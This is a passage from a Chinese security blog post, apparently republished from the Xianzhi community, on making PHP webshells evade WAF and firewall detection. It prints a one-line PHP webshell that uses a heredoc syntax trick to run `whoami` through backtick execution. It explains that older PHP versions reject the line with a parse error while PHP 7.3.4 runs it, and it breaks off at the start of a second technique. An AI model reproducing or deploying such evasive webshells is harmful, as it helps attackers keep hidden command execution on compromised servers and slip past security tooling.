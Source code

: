 #  几种实战成功过的webshell免杀方式

[ LemonSec ](javascript:void\(0\);)

**LemonSec** ![]()

微信号 lemon-sec

功能介绍 每日发布安全资讯～

____

__

收录于话题

文章来源：先知社区（Icepaper）

原文地址：https://xz.aliyun.com/t/10937

  

 **0x01 php的免杀**

传统的php免杀不用多说了，无非就是各种变形和外部参数获取，对于一些先进的waf和防火墙来说，不论如何解析最终都会到达命令执行的地方，但是如果语法报错的话，就可能导致解析失败了，这里简单说几个利用php版本来进行语义出错的php命令执行方式。  

  

###  **1、利用在高版本php语法不换行来执行命令**

  *   *   *   *   * 

    
    
     <?=$a=<<< aaassasssasssasssasssasssasssasssasssasssasssassssaa;echo `whoami`?>

  

####  **5.2 版本报错**

![](https://gitee.com/fuli009/images/raw/master/public/20220416212743.png)  
 **5.3
版本报错**![](https://gitee.com/fuli009/images/raw/master/public/20220416212758.png)  

####  **5.4 版本报错**

![]()  

####  **7.3.4 成功执行命令**

![](https://gitee.com/fuli009/images/raw/master/public/20220416212800.png)

  

###  **2、利用\特殊符号来引起报错**

  *   * 

    